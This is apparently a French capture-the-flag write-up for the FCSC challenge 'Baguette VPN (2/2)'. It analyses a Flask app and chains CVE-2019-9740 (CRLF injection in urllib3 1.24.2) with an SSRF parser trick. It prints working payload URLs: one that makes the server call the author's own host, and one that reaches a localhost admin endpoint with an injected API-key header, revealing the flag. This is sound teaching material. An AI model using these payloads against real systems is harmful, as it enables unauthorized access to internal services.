




# Baguette VPN (2/2)





Ce challenge est la suite de [Baguette VPN (1/2)](https://www.ecuri.es/baguette-vpn-1-2/)




# La suite

Nous avons précdemment récupéré le code source du serveur web :

```python
# /usr/bin/env python3
# -*- coding:utf-8 -*-
# -*- requirements:requirements.txt -*-

# Congrats! Here is the flag for Baguette VPN 1/2
#   FCSC{e5e3234f8dae908461c6ee777ee329a2c5ab3b1a8b277ff2ae288743bbc6d880}

import os
import urllib3
import sys
from flask import Flask, request, jsonify, Response
app = Flask(__name__)


@app.route('/')
def index():
    with open('index.html', 'r') as myfile:
        return myfile.read()


@app.route('/api')
def api():
    return Response('OK', status=200)


@app.route("/api/image")
def image():
    filename = request.args.get("fn")
    if filename:
        http = urllib3.PoolManager()
        return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
    else:
        return Response('Paramètre manquant', status=400)


@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)


@app.route("/api/debug")
def debug():
    data = {}
    for k, v in globals().copy().items():
        if not isinstance(v, str):
            data[k] = str(dir(v))
        else:
            data[k] = v
    data['__version__'] = sys.version
    return jsonify(data)


@app.route('/<path:path>')
def load_page(path):
    if '..' in path:
        return Response('Interdit', status=403)
    try:
        with open(path, 'r') as myfile:
            mime = 'text/' + path.split('.')[-1]
            return Response(myfile.read(), mimetype=mime)
    except Exception as e:
        return Response(str(e), status=404)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=os.getenv('FLASK_LOCAL_PORT'))
```

# Analyse du code

Regardons un peu ce que fait ce code.

Tout d'abord l'en-tête :

```python
# /usr/bin/env python3
# -*- coding:utf-8 -*-
# -*- requirements:requirements.txt -*-
```

Cet en-tête nous dit que nous avons à faire à un script en [Python](https://fr.wikipedia.org/wiki/Python_(langage)) 3.

On a aussi l'information que ce script utilise des dépendances (fichier `requirments.txt`). Allons jeter un coup d'oeil :

```
urllib3==1.24.2
flask
```

Le script serveur utilise le framework web [Flask](https://fr.wikipedia.org/wiki/Flask_(framework)) et utilise une version d'[urllib3](https://urllib3.readthedocs.io/en/latest/) sur une version figée 1.24.2.

Dans la suite du script nous voyons plusieurs routes :

 ```python
 @app.route('/')
 def index():
     with open('index.html', 'r') as myfile:
         return myfile.read()
 ```

Cette route est la route par défaut qui sert le fichier HTML au navigateur Web.

```python
@app.route('/api')
def api():
    return Response('OK', status=200)
```

Cette route est une route de ping. Elle sert juste à voir si le serveur est up ou pas.

```python
@app.route("/api/image")
def image():
    filename = request.args.get("fn")
    if filename:
        http = urllib3.PoolManager()
        return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
    else:
        return Response('Paramètre manquant', status=400)
```

Cette route sert à récupérer une image qui vient d'un CDN en mettant son nom dans un paramètre qui s'appelle `fn`. On remarque aussi l'utilisation de la librairie [Python](https://fr.wikipedia.org/wiki/Python_(langage)) [`urllib3`](https://urllib3.readthedocs.io/en/latest/).

```python
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```

Cette route est la route qui nous interesse. Elle nous dit que si l'adresse IP du client qui fait la requête est l'adresse locale (127.0.0.1), lui même, et que si le [header HTTP](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields) `X-API-KEY` a la valeur `b99cc420eb25205168e83190bae48a12`, alors le flag (qu se situe dans une variable d'environnement) est affiché. Sinon circulez, il n'y a rien à voir.

```python
@app.route("/api/debug")
def debug():
    data = {}
    for k, v in globals().copy().items():
        if not isinstance(v, str):
            data[k] = str(dir(v))
        else:
            data[k] = v
    data['__version__'] = sys.version
    return jsonify(data)
```

La fameuse route WTF debug, qui affiche les informations de DEBUG.

```python
@app.route('/<path:path>')
def load_page(path):
    if '..' in path:
        return Response('Interdit', status=403)
    try:
        with open(path, 'r') as myfile:
            mime = 'text/' + path.split('.')[-1]
            return Response(myfile.read(), mimetype=mime)
    except Exception as e:
        return Response(str(e), status=404)
```

Cette route qui sert à filtrer l'accès aux fichiers potentiels sur le serveur. Elle emêche notemment de faire du Directory Transversal / Navigation Transverse de fichiers.

```python
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=os.getenv('FLASK_LOCAL_PORT'))
```

Ceci n'est pas vraiment une route. C'est le point de démarrage de l'application web.
Elle le lance sur le port spécifié dans la variable d'environnement `FLASK_LOCAL_PORT` en l'exposant vers tout le monde.

# Récapitulons

Nous avons donc les informations suivantes :
- Application en [Python](https://fr.wikipedia.org/wiki/Python_(langage)) avec [Flask](https://fr.wikipedia.org/wiki/Flask_(framework))
- Utilisation de la version 1.24.2 de la librairie [urllib3](https://urllib3.readthedocs.io/en/latest/)
- Le port sur lequel l'application tourne qui est inconnu mais disponible quelque part dans les variables d'environnement
- L'utilisation d'une route pour récupérer une image d'un CDN
- La route qui nous interesse `/api/secret` qu'on ne peut interroger que via le serveur lui même avec une en-tête bien spécifique.

On a beaucoup d'informations.

# Recherches complémentaires et exploit
En cherchant un peu sur Internet, on tombe sur une faille de sécurité ([CVE-2019-9740](https://bugs.python.org/issue36276)) d'[urllib3](https://urllib3.readthedocs.io/en/latest/) qui est corrigée en version 1.24.3

Cette faille de sécurité permet, via une [CRLF Injection](https://fr.wikipedia.org/wiki/Carriage_Return_Line_Feed), de pouvoir manipuler et de modifier les en-têtes. C'est interessant. On pourrait donc s'en servir pour injecter la clé d'API permettant l'accès au flag.

Mais ce n'est pas suffisant. Comme on le voit dans le code à cette ligne :

```python
return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
```

La requete tape sur `http://baguette-vpn-cdn`. Autrement dit, ce n'est pas la machine du serveur (localhost ou 127.0.0.1).

Il faudrait trouver un moyen de pouvoir changer cette URL.

En cherchant un peu (encore) que Internet, on tombe sur la possibilité de faire une [SSRF](https://en.wikipedia.org/wiki/Server-side_request_forgery) avec urllib (https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) qui nous dit :



On peut donc bypasser le début de la requete [HTTP](https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol) pour taper sur celle qu'on veut.
Essayons donc avec un serveur que nous maitrisons en requêtant via l'URL :

```
http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=%0A%26%40ecuri.es:1234
```

Résultat dans netcat :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [152.228.210.13] 47886
GET / HTTP/1.1
Host: ecuri.es:1234
Accept-Encoding: identity
```

BINGO. On sait donc requeter sur une autre URL.

Le seul soucis, c'est qu'on ne connait pas le numéro de port utilisé dans la variable d'environnement `FLASK_LOCAL_PORT`.

Dans la culture geek, le port communément utilisé pour diverses choses, du lol, des tests, autres, c'est le port `1337`.

Si maintenant on requête sur l'URL de la machine en lui disant :
- Connecte toi à 127.0.0.1:1337
- Tape sur la route /api/secret
- Injecte moi le [header HTTP](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields) `X-API-KEY` avec la valeur `b99cc420eb25205168e83190bae48a12`

Soit l'URL suivante :

```http
http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=%0A%26%40127.0.0.1:1337/api/secret%20HTTP/1.1%0AX-API-KEY:%20b99cc420eb25205168e83190bae48a12%0AIgnore:
```

Nous obtenons :




```
FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}
```


